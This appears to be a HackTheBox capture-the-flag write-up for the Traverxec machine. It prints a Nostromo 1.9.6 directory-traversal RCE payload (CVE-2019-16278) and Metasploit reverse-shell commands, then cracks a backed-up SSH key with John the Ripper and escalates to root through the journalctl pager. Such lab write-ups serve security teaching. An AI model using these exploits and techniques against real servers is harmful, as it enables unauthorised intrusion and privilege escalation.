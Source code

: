 ```yaml
---
title: Write-up Traverxec Machine
author: pcw3r
date: 2020-04-11 11:33:00 +0800
categories: [HackTheBox, Boot2Root]
tags: [LINUX, EASY, ENUMERATION, WEB EXPLOITATION, PASSWORD CRACKING, GTFOBINS-ABUSE, SHELL-ESCAPING, CVE]
math: true
---
```


**<center>Ref°: HTB-03-Boot2Root</center>**

![Desktop View]({{ "/assets/img/traverxec/HTB-Badge-Traverxec.png" | relative_url }})

--- Traverxec is a Linux machine that highlights the exploitation of CVE through nostromo version 1.9.6 to gain first level access. Then allow the enumeration to escalate our privileges through a found and cracked backup ssh key. That to get Flag user.

After that we find a script named "server-stats.sh" which allow to user David run especially command under root permission. To increase our privilege and gain root permission we use GTFOBin on journalctl and the execution of linux pager tool to allow the navigation in script result under root permission. That to get Flag root.

![Desktop View]({{ "/assets/img/traverxec/HTB-Information-Traverxec.png" | relative_url }})

## **<span style='color:#c0392b'>[1] Discovery - Figure out environment</span>**
### Check all services
***
The nmap scan reveals `SSH` and `Apache` to be running on their usual ports.

```terminal
$ nmap -A -T5 10.10.10.165 -p-
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-nmap.png" | relative_url }})

### Web
***
Nostromo run on the web service in version `1.9.6`.

### Vulnerabilities
***

Here our target is Nostromo software. We check all vulnerabilities with metasploit and we find 2 vulnerabilities presents in our version.

We are two CVE : 2019-16278 and 2019-16279. The first one is more interesting, it allow an RCE through directory transversal.

### Reviewing Code
***
Reference - exploit : <https://www.exploit-db.com/exploits/47837>

This issue is caused by a directory traversal in the function http_verify in nostromo nhttpd allowing an attacker to achieve remote code execution via a crafted HTTP request.

```
...
def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)
...
```

The execution of the RCE dont need to be authenticated or have an authenticated user.

Metasploit module exists.

## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### Obtaining Reverse Shell from CVE Exploitation
***
```terminal
$ msfconsole
msf5 > search nostromo
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 > show options
msf5 > set lhost 10.10.15.122
msf5 > set rhost 10.10.10.165
msf5 > check
msf5 > exploit
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-rce.png" | relative_url }})

The exploitation is successful and we have gained a foothold.

Let's appear a pseudo-terminal with this command :

Reference - pseudo-terminal : <https://hacktion.be/reverse-shell-exercice/>

```terminal
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-terminalonrce.png" | relative_url }})


## **<span style='color:#c0392b'>[3] Lateral Movement - Move through environment</span>**
### Cracking Password
***
Enum with www-data account and check the file /etc/passwd to find all system users : `David`

We find in nostromo folder a configuration file with reference of `public_www` folder below `/var/nostromo/conf/nhttpd.conf`

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-publicfolder.png" | relative_url }})

We find `SSH Key` archive below `/home/david/public_www/protected-file-area`

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-backupssh.png" | relative_url }})

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-backupssh2.png" | relative_url }})

We retrieve the private key to exploit it with JohnTheRipper on our attacking machine.

Reference - johntheripper tool : <https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c>

```terminal
$ ./ssh2john.py ~/.ssh/David > David.hash
$ /usr/sbin/john --wordlist=/root/Documents/wordlist/rockyou.txt David.hash
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-jtr.png" | relative_url }})

We crack the password of the user David : `hunter`


## **<span style='color:#c0392b'>[4] Privilege Escalation - Gain higher-level permissions</span>**
### GTFOBins abuse & Shell Escaping
***
We find bash script `server-stats.sh` below `/home/david/bin`

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-scriptexec.png" | relative_url }})

David can execute this command under root privilege without password :

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | usr/bin/cat
```

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-script.png" | relative_url }})

Here we want stop the script under root privilege. To do this we use 2 techniques ; `GTFOBin Abuse` on journalctl and `Shell Escaping`.

We copy the script to exploit the command line like we want.

We delete the command `/usr/bin/cat` to avoid the result of the command.

```terminal
david@traverxec:~$ cp server-stats.sh private.sh
david@traverxec:~$ chmod +x private.sh
david@traverxec:~$ nano private.sh -> delete command /usr/bin/cat
```

Before launch our script, we need to resize our terminal to allow the execution of the pager linux tool.

Reference - Shell Escaping : <https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/>

"Linux pagers are simple utilities that allow us to see the output of a particular command or text file, that is too big to fit the screen, in a paged way. The most well known are more and less."

In this situation, the result of script that appears is larger than our terminal and allow the navigation of the document under root permission.

We have the possibility to abusing of GTFOBin journalctl to appear a shell under root privilege with !/bin/sh

Reference - journalctl GTFOBin : <https://gtfobins.github.io/gtfobins/journalctl/>

![Desktop View]({{ "/assets/img/traverxec/HTB-Images-Traverxec-resizeterminal.png" | relative_url }})

***

## **<center>Trophy</center>**

> **Everything is a copy of a copy of a copy.**
>
> Chuck Palahniuk, Fight Club
